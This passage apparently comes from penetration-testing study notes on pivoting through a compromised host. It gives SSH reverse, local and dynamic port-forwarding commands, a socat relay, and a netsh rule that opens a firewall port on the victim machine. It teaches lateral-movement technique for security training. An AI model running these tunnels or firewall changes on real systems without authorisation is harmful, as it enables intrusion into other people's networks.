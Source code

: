 {% hint style="info" %}
RDP is not an option here because of two constraints that are usually present:

1. We may not have GUI access.
2. Our pivot host may not have the required scripting languages to run exploits.
{% endhint %}

`ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N`  to be run on compromised PC

* -R: reverse port forward.
* -N: no remote command; just tunnel. if our pivot hosts tries to open a shell, immediately disconnect
* on our attacker PC we can just RDP into the forwarded port
  * `xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword`

#### SSH Local Port Forwarding

The idea is to "pull" a port from the SSH server (attacking machine) into the SSH client (pivot host) and make any service available from our attacking machine available on a port on our compromised pivot host.

`ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N`

* -L: local port forward
* must specify local socket to receive connections
  * It’s the listening socket on 1.1.1.1:80, created by the SSH server after login. That socket is exposed to the outside world, and all traffic to it gets tunneled back to your localhost’s 127.0.0.1:80
* `netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80`  to create a new firewall rule to open a new port on the compromised host

### Port Forwarding with Socat

This is only possible if you transfer over the compiled executable binary into the pivot host.

`socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321` to open port 1234 on the compromised pivot host and forward any connection we receive there to port 4321 on our target host 1.1.1.1

* `fork` allows socat to fork a new process for each connection received
  * forks → makes a child process to handle that specific connection
  * that child process forwards data to 1.1.1.1:4321
* make sure to create new firewall rule like done above\


<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Dynamic Port Forwarding and SOCKS

> SOCKS proxy: a general-purpose proxy server that relays any kind of traffic (TCP and sometimes UDP) between a client and a destination server, without interpreting the traffic.

We may want to run scans across many across **many machines** which is impossible from single port forwarding. Using the pivot host as a SOCKS proxy will allow us to do that.

`ssh tunneluser@1.1.1.1 -R 9050 -N` to start a SOCKS proxy on port 9050 and forward any request through the SSH tunnel where they are proxied by the SSH client (pivot host)
